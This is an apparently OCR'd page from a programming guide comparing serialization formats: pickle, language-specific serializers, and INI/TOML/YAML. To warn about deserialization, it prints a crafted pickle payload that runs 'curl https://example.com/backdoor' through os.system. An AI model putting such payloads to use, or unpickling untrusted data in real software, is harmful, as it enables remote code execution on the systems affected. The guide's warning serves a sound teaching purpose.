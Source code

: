 For example, in Python, you can use pickle and cPickle:

```python
>>> class Foo:
...     attr = 'A class attribute'
...

>>> import pickle
>>> picklestring = pickle.dumps(Foo)

>>> picklestring
b'\x80\x03c__main__\nFoo\nq\x00.'

>>> pickle.loads(picklestring)
<class '__main__.Foo'>
```

Similar classes or interfaces can be found in other languages, for example, Marshal for Ruby, function serialize for PHP, class implemented `java.io.Serializable` for Java, etc.

The deserialization is usually dangerous when in language specific format. Deserialization usually means code execution, and therefore, malformed data from untrusted source can harm the system that runs the program.  It's the worst choice and generally not recommend to use. Below is an example that a pickled data can send server ip to a backdoor service.

```python
data  = """cos
system
(S'curl https://example.com/backdoor'
tR.
"""
pickle.loads(data)
```

* Advantage
    * Can support various data types.
* Disadvantage
    * DANGEROUS!
    * Can't be used in other languages.
    * Hard to debug.

### Others

INI, TOML and YAML are also human readable serialization formats.

|INI|TOML|YAML|
|---|----|----|
|[section]|[section]|section:|
|key=value|key="value"|key: value|

The three serialization formats listed above are often used as configuration file format.

* Advantages
    * Human readable and writable.
    * Well-support libraries.
* Disadvantages
    * Not designed for large dataset.
